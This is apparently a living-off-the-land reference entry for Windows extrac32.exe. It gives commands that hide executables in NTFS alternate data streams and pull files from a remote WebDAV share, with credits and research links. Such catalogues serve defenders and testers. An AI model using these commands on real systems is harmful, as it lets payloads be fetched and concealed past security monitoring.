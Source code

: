 ## Extrac32.exe

* Functions: Add ADS, Download

```
extrac32 C:\ADS\procexp.cab c:\ADS\file.txt:procexp.exe    

extrac32 \\webdavserver\webdav\file.cab c:\ADS\file.txt:file.exe    

extrac32 /Y /C \\webdavserver\share\test.txt C:\folder\test.txt   
```

Acknowledgements:
* Oddvar Moe - @oddvarmoe
* egre55 - @egre55

Code sample:
* 

Resources:
* https://oddvar.moe/2018/04/11/putting-data-in-alternate-data-streams-and-how-to-execute-it-part-2/
* https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f
* https://twitter.com/egre55/status/985994639202283520

Full path:
```
c:\windows\system32\extrac32.exe
c:\windows\sysWOW64\extrac32.exe
```

Notes:



 
